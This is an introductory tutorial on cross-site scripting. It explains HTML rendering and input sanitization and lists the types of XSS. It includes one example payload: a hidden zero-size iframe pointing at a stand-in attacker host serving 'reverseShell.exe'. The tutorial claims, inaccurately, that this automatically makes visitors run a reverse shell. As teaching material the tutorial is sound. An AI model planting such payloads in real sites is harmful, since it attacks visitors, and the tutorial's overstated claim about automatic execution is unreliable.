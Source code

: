 #Cross Site Scripting (XSS)
##The Problem
Let's think for a moment: what are websites really made out of?

A website cannot be understood and displayed by a computer unless it is written in a very specific manner. You are probably familiar with **Hypertext Markup Language (HTML)** if you've spent some time on the internet. This is the classic markup language meant to make plain text files into things that can be displayed by a web server. **HTML** is responsible for most (but not all) web based things that you've ever seen in a web browser!

When you want to see memes of cats doing funny things on the internet, HTML is the language that translates a static page of text into images, headings, buttons, links, and more! 

And most of the time, this is totally fine. You, the **client**, browse to the IP address of the web server. The web server sees a visitor and says "I must render the text documents in my main directory so our visitor can see our website!" And the server takes the HTML file and makes it into something that looks good in a web browser. Science, baby!

## The Exploit
Most problems in cyber security can be boiled down to the fact that computers, for better or worse, do exactly what you tell them to do.

If the internet was just a bunch of pictures of static cat memes, I think we'd all be better off and nothing bad would ever happen. The problem here is that people love to make websites... well... **useful**. So maybe instead of cat memes, your company website has a form that take user input and produce some kind of output based on the user input.

Remember, **computers do exactly what you tell them to do**. So what if, instead of just filling out the form like a law-abiding citizen, you decide to put some HTML (or Javascript, or other type of website language) in the form instead?

Ladies and gentlemen, you have Cross Site Scripting: an exploit of **client-side HTML rendering**. The HTML code that you enter into the form is rendered by the website **as if it were part of the website in the first place**.

If a website accepts input from clients and  **does not validate and sanitize its input**, it may be vulnerable to Cross Site Scripting. Speaking simply, the website must be coded to accept input and **treat it as plain text, not HTML** to avoid this problem.

##The Types
There are three types of XSS:
- Reflected XSS: XSS that returns user input 
- Stored XSS: Think of this as XSS that is added to the actual code on the server. This means that anyone who visits a particular page with this kind of XSS will be exploited by it, and it will remain on the server until someone does something about it. Scary stuff.
- DOM Based XSS


##The Damage
XSS is not just a matter of popping up an alert on a website. An atacker can do serious damage if a webpage is vulnerable to XSS.

Consider the following example of an XSS payload:

`<iframe SRC="http://evil.website.evil/reverseShell.exe" height = "0" width = "0"></iframe>`

Here, the `iframe` HTML tag is used to make an embedded inline frame. This frame ends up looking like a tiny little square on the page when it is rendered in the browser. And as soon as a client visits a page that has been infected with an embedded iframe, their browser will try to access and browse to the iframe's source which, in this example, is `evil.website.evil/reverseShell.exe`. So everyone who visits the page while this XSS payload exists will download and launch a reverse shell program.




